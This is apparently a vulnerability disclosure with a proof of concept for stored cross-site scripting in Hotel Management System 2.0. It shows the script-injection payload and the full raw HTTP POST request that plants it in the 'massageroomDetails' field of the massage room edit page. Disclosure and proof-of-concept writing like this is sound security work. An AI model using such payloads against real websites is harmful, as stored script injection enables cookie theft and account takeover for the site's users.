 #### Title: Hotel Management System 2.0 Stored Cross-Site Scripting
#### Author: Ashish Kumar (https://www.linkedin.com/in/ashish-kumar-0b65a3184)
#### Date: 03.07.2022
#### Vendor: https://www.sourcecodester.com/users/tips23
#### Software: https://www.sourcecodester.com/php-codeigniter-hotel-management-system-source-code
#### Version: 2.0
#### Reference: https://github.com/CyberThoth/CVE/blob/main/CVE/Hotel%20Management%20system/Cross%20Site%20Scripting(Stored)/POC.md

#### Description：
#### Hotel Management System is vulnerable to Stored cross-site scripting on the massage_room edit page. The "Massageroom Details" parameter in 'http://localhost/ci_hms/massage_room/edit/1' is vulnerable.

#### Impact:
 An attacker could steal cookies with a crafted URL sent to the victims.

#### Payload used:
`"><script>alert("XSS")</script>`


### POC

```
POST /ci_hms/massage_room/edit/1 HTTP/1.1
Host: localhost
Content-Length: 147
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/ci_hms/massage_room/edit/1
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: ci_session=hdp38os27crl5o0pejuev0b32scfp0pv
Connection: close

massageroomOpenTime=11%3A00&massageroomCloseTime=18%3A00&massageroomDetails=%60%22%3E%3Cscript%3Ealert%28%22XSS%22%29%3C%2Fscript%3E%60%09%09%09%09
```

![image](https://github.com/CyberThoth/CVE/blob/3071fcfdc929fce59f1f443928bfd0f6243d3c47/CVE/Hotel%20Management%20system/Cross%20Site%20Scripting(Stored)/1.png)

![image](https://github.com/CyberThoth/CVE/blob/3071fcfdc929fce59f1f443928bfd0f6243d3c47/CVE/Hotel%20Management%20system/Cross%20Site%20Scripting(Stored)/2.png)
